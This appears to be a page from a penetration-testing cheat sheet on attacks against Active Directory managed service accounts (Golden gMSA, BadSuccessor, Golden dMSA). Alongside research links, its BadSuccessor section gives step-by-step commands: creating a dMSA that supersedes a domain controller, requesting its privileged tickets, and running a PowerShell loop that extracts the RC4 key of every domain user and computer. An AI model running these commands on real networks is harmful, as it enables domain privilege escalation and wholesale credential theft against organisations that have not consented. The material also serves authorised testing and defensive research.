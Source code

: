 ```yaml
---
description: Group Managed Service Accounts / Delegated Managed Service Accounts
---
```


# gMSA / dMSA




## Golden gMSA

- [https://www.semperis.com/blog/golden-gmsa-attack/](https://www.semperis.com/blog/golden-gmsa-attack/)
- [https://github.com/Semperis/GoldenGMSA](https://github.com/Semperis/GoldenGMSA)




## BadSuccessor

- [https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory](https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory)
- [https://www.akamai.com/blog/security-research/badsuccessor-is-dead-analyzing-badsuccessor-patch](https://www.akamai.com/blog/security-research/badsuccessor-is-dead-analyzing-badsuccessor-patch)
- [https://medium.com/seercurity-spotlight/operationalizing-the-badsuccessor-abusing-dmsa-for-domain-privilege-escalation-429cefc36187](https://medium.com/seercurity-spotlight/operationalizing-the-badsuccessor-abusing-dmsa-for-domain-privilege-escalation-429cefc36187)
- [https://sapirxfed.com/2025/05/24/the-new-dmsa-vuln-for-people-who-dont-know-what-dmsa-is/](https://sapirxfed.com/2025/05/24/the-new-dmsa-vuln-for-people-who-dont-know-what-dmsa-is/)
- [https://specterops.io/blog/2025/05/27/understanding-mitigating-badsuccessor/](https://specterops.io/blog/2025/05/27/understanding-mitigating-badsuccessor/)
- [https://kreep.in/badsuccessor-abusing-dmsas-for-ad-domination/](https://kreep.in/badsuccessor-abusing-dmsas-for-ad-domination/)

Enumerate OUs where we can create child objects (using [powerview.py](https://github.com/aniqfakhrul/powerview.py) or [bloodyAD](https://github.com/CravateRouge/bloodyAD)):

```
PV > Get-DomainObjectAcl -LDAPFilter "(objectClass=organizationalUnit)" -Where "ActiveDirectoryRights contains CreateChild"
$ bloodyAD -d megacorp.local -k --host DC01.megacorp.local --dc-ip 192.168.1.11 --dns 192.168.1.11 [--gc 192.168.1.11] [-s] get writable --otype OU [--right CHILD]
```

Create a dMSA account with a superseded account in the `msDS-ManagedAccountPrecededByLink` property (using [powerview.py](https://github.com/aniqfakhrul/powerview.py) or [bloodyAD](https://github.com/CravateRouge/bloodyAD)):

```
PV > Add-DomainDMSA -Identity mydmsa -PrincipalsAllowedToRetrieveManagedPassword jdoe -SupersededAccount DC01 [-BaseDN "CN=Managed Service Accounts,DC=megacorp,DC=local"]
$ bloodyAD -d megacorp.local -k --host DC01.megacorp.local --dc-ip 192.168.1.11 --dns 192.168.1.11 [--gc 192.168.1.11] [-s] add badSuccessor mydmsa -t "CN=DC01,OU=Domain Controllers,DC=megacorp,DC=local" [--ou "CN=Managed Service Accounts,DC=megacorp,DC=local"]
```

Ask for a TGT containing the superseded account PAC (using [Rubeus](https://github.com/GhostPack/Rubeus) or [minikerberos-getDmsa](https://github.com/skelsec/minikerberos/blob/main/minikerberos/examples/getDmsa.py)):

```
Cmd > Rubeus.exe asktgs /targetuser:mydmsa$ /service:krbtgt/megacorp.local /dmsa /opsec /nowrap /ticket:<JDOE_TGT>
$ python3 minikerberos/examples/getDmsa.py 'kerberos+ccache://megacorp.local\jdoe:tgt.ccache@192.168.1.11' 'mydmsa$@megacorp.local' --ccache /tmp/mydmsa.ccache
```

Request TGT and grep for "previous keys" (from `KERB-DMSA-KEY-PACKAGE` structure), which is actually current RC4 of the superseded account, for all domain users and computers in a loop (requires [this Rubeus](https://github.com/GhostPack/Rubeus/compare/master...YuG0rd:Rubeus:master)):

```powershell
$domain = Get-ADDomain
$dmsa = "CN=mydmsa,CN=Managed Service Accounts,$($domain.DistinguishedName)"
$allDNs = @(Get-ADUser -Filter * | select @{n='DN';e={$_.DistinguishedName}}, sAMAccountName) `
        + @(Get-ADComputer -Filter * | select @{n='DN';e={$_.DistinguishedName}}, sAMAccountName)
$allDNs | % {
    Set-ADObject -Identity $dmsa -Replace @{ "msDS-ManagedAccountPrecededByLink" = $_.DN }
    $res = Invoke-Rubeus asktgs /targetuser:mydmsa$ /service:"krbtgt/$($domain.DNSRoot)" /opsec /dmsa /nowrap /ticket:$kirbi
    $rc4 = [regex]::Match($res, 'Previous Keys for .*\$: \(rc4_hmac\) ([A-F0-9]{32})').Groups[1].Value
    "$($_.sAMAccountName):$rc4"
}
```



### Tools

- [https://github.com/akamai/BadSuccessor](https://github.com/akamai/BadSuccessor)
- [https://github.com/logangoins/SharpSuccessor](https://github.com/logangoins/SharpSuccessor)
- [https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/ActiveDirectory/BadSuccessorCheck.ps1](https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/ActiveDirectory/BadSuccessorCheck.ps1)
- [https://github.com/fulc2um/impacket/blob/badsuccessor/examples/badsuccessor.py](https://github.com/fulc2um/impacket/blob/badsuccessor/examples/badsuccessor.py)




## Golden dMSA

- [https://www.semperis.com/blog/golden-dmsa-what-is-dmsa-authentication-bypass/](https://www.semperis.com/blog/golden-dmsa-what-is-dmsa-authentication-bypass/)
- [https://github.com/Semperis/GoldenDMSA](https://github.com/Semperis/GoldenDMSA)
